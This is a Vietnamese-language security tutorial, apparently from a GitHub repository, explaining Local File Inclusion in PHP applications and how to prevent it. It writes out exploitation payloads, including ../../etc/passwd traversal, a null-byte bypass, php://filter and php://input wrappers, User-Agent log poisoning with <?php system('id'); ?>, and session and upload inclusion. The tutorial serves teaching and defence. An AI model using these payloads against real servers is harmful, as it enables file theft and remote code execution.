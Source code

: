 # LFI vul (Local File Inclusion)

## 1. Khái niệm
- **Local File Inclusion (LFI)** là một lỗ hổng bảo mật web xảy ra khi ứng dụng không kiểm tra hoặc lọc dữ liệu đầu vào một cách chặt chẽ. LFI cho phép kẻ tấn công chỉ định đường dẫn tới các file trên máy chủ, dẫn đến việc tải hoặc thực thi các file đó.

---

## 2. Nguyên Nhân
- Ứng dụng chấp nhận dữ liệu đầu vào từ người dùng mà không kiểm tra đúng cách.
- Sử dụng các hàm như `include()`, `require()`, `include_once()` hoặc `require_once()` mà không lọc đầu vào.
- Thiếu các biện pháp bảo vệ như kiểm tra whitelist hoặc mã hóa đường dẫn.

---

## 3. LFI và Path Traversal
### 3.1. Path Traversal
- **Path Traversal** là một lỗ hổng bảo mật cho phép kẻ tấn công truy cập các file không được phép trên server bằng cách thay đổi đường dẫn file. **Path Traversal** thường chỉ cho phép **đọc file mà không thực thi chúng**.

Ví dụ:
```http
http://example.com/index.php?file=../../etc/passwd
```

### 3.2. Local File Inclusion (LFI)
- **LFI** không chỉ **cho phép truy cập file** mà còn có khả năng **thực thi nội dung file**, đặc biệt khi ứng dụng sử dụng các hàm như `include()`. LFI có thể dẫn đến **Remote Code Execution (RCE)**.

- Ví dụ:
```http
http://example.com/index.php?page=../../var/log/apache2/access.log
```
- Nếu ta chèn mã độc vào log file, mã này có thể được thực thi thông qua LFI.

| Tiêu Chí                  | Path Traversal                  | Local File Inclusion (LFI)       |
|---------------------------|---------------------------------|-----------------------------------|
| Mục tiêu chính            | Đọc file                        | Đọc và có thể thực thi file       |
| Hàm liên quan             | Không yêu cầu `include()`       | Yêu cầu các hàm như `include()`  |
| Mức độ nguy hiểm          | Cao                            | Rất cao                          |
| Ví dụ payload             | `../../etc/passwd`             | `../../var/log/apache2/access.log` |

---

## 4. Cách Khai Thác

### 4.1. Khai Thác Cơ Bản
- Thay đổi giá trị tham số để tải các file nhạy cảm trên máy chủ:
```http
http://example.com/index.php?page=../../etc/passwd
```
- Payload `../../etc/passwd` sử dụng ký tự `../` để truy cập các thư mục cấp cao hơn.

### 4.2. Null Byte Injection
- Trong PHP < 5.3, ký tự null byte (`%00`) có thể bypass kiểm tra đuôi file:
```http
http://example.com/index.php?page=../../etc/passwd%00
```

### 4.3. Sử Dụng PHP Wrappers
- **Đọc file bằng `php://filter`**:
```http
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=config.php
```
- **Thực thi payload qua `php://input`**:
```http
POST /index.php?page=php://input

- Payload:
<?php system('id'); ?>
```

### 4.4. Chèn Mã Vào Log Files
- **Chi Tiết**:
  1. Kẻ tấn công gửi một yêu cầu HTTP chứa mã độc trong header (ví dụ: `User-Agent`).
  2. Mã độc được ghi vào log file của server (thường ở `/var/log/apache2/access.log`).
  3. LFI được sử dụng để đọc và thực thi log file đó.
- **Ví Dụ Payload**:
  ```http
  GET /index.php?page=../../var/log/apache2/access.log HTTP/1.1
  User-Agent: <?php system('id'); ?>
  ```
- **Giải Thích**: Nếu server log không được bảo vệ, mã độc có thể được thực thi ngay khi `include()` được gọi đến log file.

### 4.5. Khai Thác Session Files
- **Chi Tiết**:
  1. PHP lưu session của người dùng dưới dạng file tại thư mục `/var/lib/php/sessions/` (hoặc tương đương).
  2. Kẻ tấn công tạo session chứa mã độc thông qua ứng dụng web.
  3. Sử dụng LFI để đọc và thực thi file session này.
- **Ví Dụ Payload**:
  ```http
  GET /index.php?page=/var/lib/php/sessions/sess_<session_id>
  ```
- **Giải Thích**: Nếu nội dung của file session chứa mã PHP, nó sẽ được thực thi khi `include()` gọi đến.

### 4.6. Khai Thác File Upload
- **Chi Tiết**:
  1. Ứng dụng cho phép upload file mà không kiểm tra định dạng hoặc nội dung.
  2. Kẻ tấn công upload một file PHP chứa mã độc (ví dụ: shell).
  3. Sử dụng LFI để bao gồm và thực thi file đã upload.
- **Ví Dụ Payload**:
  ```http
  GET /index.php?page=uploads/shell.php
  ```
- **Giải Thích**: LFI hoạt động như một cách để thực thi file độc hại đã được tải lên.

---

## 5. Mục Tiêu Phổ Biến
- **Tệp cấu hình**:
  - `/etc/passwd`: Danh sách người dùng hệ thống.
  - `config.php`: File chứa thông tin cấu hình database.
- **Log Files**: `/var/log/apache2/access.log`, `/var/log/nginx/access.log`.
- **Session Files**: `/var/lib/php/sessions/`.

---

## 6. Tác Động
- Đọc các file nhạy cảm như mật khẩu, cấu hình server.
- Thực thi mã độc trên server (Remote Code Execution).
- Lấy thông tin để thực hiện các cuộc tấn công khác, như privilege escalation.

---

## 7. Cách Phòng Chống
- **Kiểm tra và lọc dữ liệu đầu vào**:
  - Chỉ cho phép các file trong danh sách whitelist.
  - Sử dụng hàm `basename()` để lọc đường dẫn.

- **Mã hóa và kiểm tra đầu vào**:
  - Chặn các ký tự đặc biệt như `../`, `%00`.
  - Sử dụng hàm `realpath()` để xác minh đường dẫn.

- **Giới hạn quyền truy cập file**:
  - Chỉ cung cấp quyền truy cập tối thiểu cho các file cần thiết.
  - Tắt hiển thị lỗi (disable error messages).

- **Cấu hình server**:
  - Tắt `allow_url_include` và `allow_url_fopen` trong PHP.
  - Vô hiệu hóa các PHP wrappers không cần thiết.

---

## 8. Công Cụ Hỗ Trợ
- **Burp Suite**: Để intercept và test payloads.
- **FFUF**: Brute force các đường dẫn file nhạy cảm.
- **Dirb**: Tìm kiếm các file ẩn hoặc nhạy cảm trên server.

---
